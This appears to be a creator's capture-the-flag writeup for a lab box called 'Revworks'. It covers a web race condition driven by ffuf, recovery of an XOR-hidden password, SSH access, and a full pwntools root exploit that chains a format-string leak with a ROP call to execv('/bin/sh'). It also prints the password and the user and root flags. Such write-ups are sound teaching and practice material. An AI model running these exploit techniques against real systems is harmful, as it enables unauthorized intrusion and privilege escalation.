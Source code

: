# Revworks - Writeup

## Enumeration

### Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 192.168.100.210 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 192.168.100.210
```

We find the classic 22,80 ports and 3000 open.

### Web

Browsing to port 80 automatically redirects us to revworks.thm. Add revworks.thm to the hosts file and browse to it. We come across a website that claims to be a "Creative Business for Reversing and Analysis".
![img](https://i.ibb.co/0JLprWf/revworks.png)

#### Winning Web Race

##### Enumeration

Browsing the base website, we see that we can `signup`(/users/sign_up) and `login` (/users/sign_in), so we create a test account `test@revworks.thm:password`, it automatically signs in the created user and now we have three more options, we can `purchase`(/site/purchasae), `transfer`(/site/transfer), `Edit profile` and we also have a `money` attribute which has a default value of 1. The `Edit profile` page is not useful to us.


Going to `/site/purchase`, we see the below page. We need our "money" value to be 10 in order to get access to the product. If we click buy, it just prompts that we do not have enough money to buy the product.
![img](https://i.ibb.co/mz4TqBL/purchase.png)


Going to `/site/transfer`, we see the below page. It says that we can only send/recieve to/from one user at this point. (Developer's note: This was made so that users simply do not create 10 or more accounts and transfer the amount to a single user, bypassing the race condition)
The email of the user has to follow the format `.*@revworks.thm`.


Transfering an amount of 1 to another user we created(`test1@revworks.thm:password`) and intercepting the request in burp, we see that the transfer was successful.

##### Exploitation

This setup allows us to perform a web race condiiton such that `test` makes a large number of asynchronous requests transfering to `test1` and the other user does the same. The end result that the server can not keep track of the transfers and transfers more amount to one or both users. This can be scripted in python3 using a module such as `grequests` but it is simpler and easier to do it using an already built fuzzing tool such as `ffuf`.

In one terminal, run the fuzzer with the cookie of `test` and with post data `test1@revworks.thm`.
In another terminal, run it with the cookie of `test1` and post data `test@revworks.thm`

Now, make sure that you're using the cookie of `test` with post data `test1` and vice versa.
Using cookie of `test`, we use
```bash
ffuf -c -u http://revworks.thm/site/transfer_money -X POST -w list.txt -H "Content-Type: application/x-www-form-urlencoded" -b "_revworks_session=sqVh5MO0L33NucU7e1Aggvb6ArHbA8g%2BUjcSmM3qwJU1X7EmRMXVuKK8q82buGs83%2F07UZqg%2BbHuxsjEEeOhCCA09PbMW9p9KO87PhWqXIu%2BDGC0zRLdsGV%2F6SMV5J%2B%2F4%2FXqyyFw68NI4swrCYBI1OMq4%2FHEpSvxU43NhJqP322P7giL4H6q9FCJRuh8D6%2FYJpnTewHyJqAc2xipXq40GJlm2R4RPfWmTnS7pj5rnYjEYwGZDOy3UwYuCJcMETViru7QxwSZyVBU%2FhxwyFHRIMKNZhv37oFwS6qzMb6f24CxaPcLSEZCxCjR%2BWQ6Hp6EqYoEK6imyvn%2BGoBkzLlevmHJD8eh8o5jtP4EDXkve3EtQIKADQiyVB9v9STX9Mo9lz5IfC92IccL--2Vi8n00asZ2J4BP8--PwXNIij%2FnP6%2FqS5YxaI%2Fwg%3D%3D" -d "email=test1@revworks.thm&amount=FUZZ" -fc 302
```
where list.txt is generated using `yes 1 | head -n 10000 > list.txt` in bash.

Using cookie of `test1`, we use
```bash
ffuf -c -u http://revworks.thm/site/transfer_money -X POST -w list.txt -H "Content-Type: application/x-www-form-urlencoded" -b "_revworks_session=gAOnqhA2aHLiNpPTTeucV5WO2wDrnhEiyFjEdELnpiqvWPOtHAsg%2BlXVARwd3EnfgaVsbHuLTINGZtFrtorq8%2BWpoEKLjhjQKug6WSSPvh2G9k6GqL8zKvtpzI4V9pn7cW2bRJv5HlHK8n6o25YGnm%2FFHlKPu4mtvwZ6z0nXKg02%2Bv%2B2koADIS%2BPIBi2T9Ja2kZ5FSL%2F21IFro3HwVNZVSgP2Mt0UunSg%2BzNP2Un5V7KtBKOZSVhLrG7PBAgcbCg1kqc4xwuYrU530Pp2obhCmiDrg%2BeySZel8N0L6QILwDOYdF0XLlt7LFmxeOtrYLcp%2BCeZy3aG6xYcSIwEdUqk5CdOblCYSrEqX4rKTjnICnBkZBYMdQkI2HM1QalS8%2Fu%2FsnwK%2B7YK0xA--REMd5Ilr07l2nhRh--eAvZKw%2BwUdtSHpDdz%2BKtKA%3D%3D" -d "email=test@revworks.thm&amount=FUZZ" -fc 302
```
the both commands should be run as close as possible.

Running these for one or two minutes should result in one or both of the users having >= 10 amount on the site. (Depending on the setup, this may vary, but I had consistent results running the webapp in a VM and my local machine)

### Reversing

Heading over to `/site/purchase`, we download the `PasswordGenerator` program, run it and open it up in ida free.

The program has two functions, `generatePassword` and `checkHash`. 
- `generatePassword` takes in the length of the password(from 0-20) and makes a random password which isn't useful for us. 
- `checkHash` function is interesting, it supposedly needs an ssh keyfile to recover the password(random id_rsa hash is used here).

The `checkHash` function reads in a file, computes its SHA1 hash and compares it against the known hash if it matches, it will show us the password. Since, we do not have the keyfile and extracting+bruteforcing the hash itself isn't feasible, we will reverse the part of the `checkHash` function which shows the password. It's decompilation by ida is shown below:
![img](https://i.ibb.co/y5PGL6B/function.png)

here the values for secret and key are `secret="zeeshan"`,
`key = [0x29, 0x03, 0x04, 0x03, 
		0x1e, 0x03, 0x24, 0x66,
		0xf1, 0x1d, 0x18, 0x11,
		0x06, 0x0a, 0x4d, 0x3d,
		0xb9, 0x57]`

We can use the following script to get the password,
```py
#!/usr/bin/env python3

secret = "zeeshan\x00"
key = [
  0x29, 0x03, 0x04, 0x03, 
  0x1e, 0x03, 0x24, 0x66,
  0xf1, 0x1d, 0x18, 0x11,
  0x06, 0x0a, 0x4d, 0x3d,
  0xb9, 0x57]

password = ""
for i in range(18):
  password += chr(key[i] ^ (ord(secret[i & 7]) + i))

print(f"{password = }")
```
which gives us a password `SecurePassword123!`

Bonus Solve: There is also a `ptrace` checker in `checkHash` so that calling the function in gdb is harder but it's still possible to step over the function call and set the result value to be `1` and simply have the program print out the password.

### User

With the password, we can ssh to the machine. We have three users from the main website page, trying all
of them we see that we can login as stephen with the above password.

### Root
Running `sudo -l` we see that we have `/manager`. We can use the following python3 script to exploit the binary and get a shell on the box, I've tried to add as much comments as possible. The program itself is very simple, `main` function reads in your input and prints it out, `vuln` function uses `scanf` too which allows you to hijack control flow and get a shell.

The program has all protections enabled.

The libc used for the exploit is copied using `scp` from the remote host.
`pwninit` has been used to patch the program to use the remote libc.

```py
#!/usr/bin/env python3
from pwn import * 
context.arch = "amd64"
# context.log_level = "debug"
# gdb debugging
gdbscript="""
b *vuln+105
c
"""
if args.REMOTE:
	shell = ssh(host="revworks.thm", user="stephen", password="SecurePassword123!")
	io = shell.process(["sudo","/manager"])
	elf = ELF("./manager_patched")
	libc = ELF("./libc.so.6")
else:
	io = process("./manager_patched")
	# gdb.attach(io, gdbscript=gdbscript)
	elf = io.elf
	libc = io.elf.libc

# format string payload to leak 
# program address, canary and libc addr respectively
payload = b'%133$lx-%25$lx-%3$lx-%58$lx'
io.sendline(payload)

io.recvuntil(b"following:")
io.recvline()

leak = io.recvline().decode().strip().split('-')
addr = int(leak[0], 16)
canary = int(leak[1], 16)
libc_addr = int(leak[2], 16)
stack_addr = int(leak[3], 16) 

stack_ret = stack_addr - 0x1b0

# setting elf base because PIE is enabled
elf.address = addr - 0x40
# setting libc base becasue ASLR is enabled
libc.address = libc_addr - 0x114a37 + 0x69c0
log.info(f"elf base is at: {hex(elf.address)}")
log.info(f"elf canary is : {hex(canary)}")
log.info(f"libc base is at: {hex(libc.address)}")
log.info(f"stack addr is at: {hex(stack_ret)}")

# badchars because scanf terminates on whitespace etc.,
rop = ROP(libc, badchars=b'\x08\x09\x10\x0c\x0d\x20')

sleep(0.5)
# correcting canary with the same value
payload = b"A"*40
payload += p64(canary)
payload += b"A"*8

payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))

payload += p64(rop.find_gadget(['pop rsi', 'ret'])[0])
payload += p64(0)

payload += p64(libc.symbols['execv'])

io.sendline(payload)

io.interactive()
```
I used `execv` instead of `system` here because the address for system had `0x0d` in it so it was not possible to write it using scanf(it is still possible to `read`(libc.sym.read) in a second payload from stdin which contains `system` and execute it but `execv` is simpler for our purposes)

`user.txt:243f92599bc872c99e1ea00ac1e3aa4f`
`root.txt:320aec873758ba547c1a463b07e61269`

#### That is it for the box, hope you enjoyed and learned something new. I had a lot of fun of making it :)
------------------------------------------------------------------------------------------------------